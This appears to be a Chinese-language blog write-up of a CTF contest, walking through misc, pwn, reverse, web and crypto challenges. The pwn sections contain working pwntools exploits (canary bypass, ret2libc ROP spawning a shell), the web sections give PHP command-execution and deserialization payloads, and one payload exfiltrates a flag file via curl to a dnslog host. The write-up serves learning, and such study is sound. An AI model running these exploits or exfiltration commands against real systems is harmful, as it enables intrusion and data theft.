小孩子不懂事打着玩的

<!-- more -->

# MISC

## 套娃

### 题目截图


### 解题思路

拿到一个xlsx文档，winhex查看发现是压缩包，遂解压



得到一个套娃.txt文件，还用winhex查看，找到docx的特征，猜测是docx文档，于是改格式为docx再打开

给文字上红色，找到flag


## ez\_xor

### 题目截图



### 解题思路

提示是异或，给了一串十六进制数，用cyberchef解并爆破即可



注意到key=39时得到flag

## ez\_picture

### 题目截图


### 解题思路

stegsolve打开15.png

看了一下各个颜色层，发现RGB的0层都有杂色，猜测是LSB隐写。



得到了9个9，就是压缩包的密码，解压得到另一张图片



在这看到了一个base64编码的字符串，解码得到flag



## easy\_misc

### 题目截图


### 解题思路

cyberchef用from decimal解出一个base64字符串



拿去解出一个base58字符串



再解，得到一个凯撒处理过的字符串



凯撒枚举一下即可



## 光隙中的寄生密钥

### 题目截图


### 解题思路

两个文件合并的隐写

binwalk分离出一个压缩包

爆破出密码是9864

得到一个文件，复制到cyberchef这样处理



## 被折叠的显影图纸

### 题目截图


### 解题思路

如图所示，strings flag.xls | grep “flag”即可查询到flag

# PWN

## Canary

### 题目截图



### 解题思路

```python
from pwn import *
#p=process('./Canary')
p=remote('47.105.113.86',30001)
context.arch='amd64'
elf=ELF('./Canary')
p.sendline('1')
sleep(0.1)
payload=b'a'*(0x70-4)+p32(0)+p64(0)+p64(0x40157E)
p.sendline(payload)
sleep(0.1)
p.sendline('2')
sleep(0.1)
p.sendline('3')
p.interactive()
```

## ez\_pwn

### 题目截图



### 解题思路

```python
from pwn import *
#p=process('./pwn')
p=remote('47.105.113.86',30003)
context.arch='amd64'
elf=ELF('./ez_pwn/pwn')
libc=ELF('./ez_pwn/libc-2.31.so')
pop_rdi_ret=0x4012c3
pop_rsi_r15_ret=0x4012c1
ret=0x40101a
log.success(hex(elf.got['read']))
payload=b'a'*0x28+p64(pop_rdi_ret)+p64(2)+p64(pop_rsi_r15_ret)+p64(elf.got['read'])*2+p64(elf.plt['write'])+p64(0x4011E2)
#gdb.attach(p)
#pause()
p.send(payload)
p.recvuntil('now.')
libc_addr=u64(p.recvn(8))-libc.sym['read']
system=libc_addr+libc.sym['system']
binsh=libc_addr+next(libc.search('/bin/sh\x00'))
payload=b'a'*0x28+p64(ret)+p64(pop_rdi_ret)+p64(binsh)+p64(system)
p.send(payload)
sleep(0.1)
p.sendline('exec 1>&2')
p.interactive()
```

# RE

## ez\_js

### 题目截图



### 解题思路

直接搜索flag即可找到

# WEB

## YWB\_Web\_xff

### 题目截图


### 解题思路

XFF类型，burp抓包拦截加个X-Forwarded-For: 2.2.2.1

然后拦截响应，即可得到flag

## YWB\_Web\_命令执行过滤绕过

### 题目截图



### 解题思路

第一个payload`http://47.105.113.86:40002/?cmd=print(file_get_contents('flag.php'));`，在源代码中可以得到一个路径：`/tmp/flag.nisp`

然后再用这个payload:`http://47.105.113.86:40002/?cmd=print(file_get_contents('/tmp/flag.nisp'));`即可得到flag

## YWB\_Web\_反序列化

### 题目截图



### 解题思路

需要构造一个经过正确反序列化的`mylogin`对象，使得其`pass`属性值为`myzS@11wawq`，从而触发`exit()`退出并可能返回flag

1. **代码逻辑梳理**：
  - **filter函数**：将输入中的`flag`和`php`替换为`hack`。
  - **反序列化检查**：POST提交的`msg`参数经`filter`处理后反序列化为对象，并检查是否为`mylogin`实例且`pass`是否匹配目标值`myzS@11wawq`。
  - **目标条件**：若`pass`正确，触发`exit()`，可能隐藏flag的输出。
2. **绕过filter过滤**：
  - 构造的序列化字符串需**不包含**`flag`或`php`，避免被替换破坏结构。
  - 确保反序列化后的对象属性`pass`值正确。
3. **构造Payload**：
  - 序列化一个`mylogin`对象，设置`pass`为`myzS@11wawq`，且不涉及被过滤的关键词。
  - 生成的序列化字符串：
  `O:7:"mylogin":2:{s:4:"user";s:5:"admin";s:4:"pass";s:11:"myzS@11wawq";}`

## YWB\_Web\_未授权访问

### 题目截图


### 解题思路

只校验了isAdmin和name字段是不是Admin。

把请求头中cookie修改一下，改为了`O:5:"Admin":2:{s:4:"name";s:5:"Admin";s:7:"isAdmin";b:1;}`

然后发包即可得到flag

## easyweb

## 题目截图



## 解题思路

dnslog外带，需要服务器向dnslog服务器发请求

payload:

```
cmd=curl `tac /flag.txt`.n6yw9e4z.eyes.sh
```

POST上去即可

然后在dnslog服务上就能看到flag了

# CRYPTO

## baby\_rsa

### 题目截图



### 解题思路

N可以分解出p,q，又有了e，c，可以轻而易举得到明文M，进而得到flag，然后按照题目要求修改对应的数字3为4。

## cry\_rsa

### 题目截图



### 解题思路

有了p，q，e，可以轻而易举算出D，然后按照题目要求+2即可得到flag

## ez\_base

### 题目截图



### 解题思路

垃圾邮件+base64加密，按顺序解密即可

## gift

### 题目截图



### 解题思路

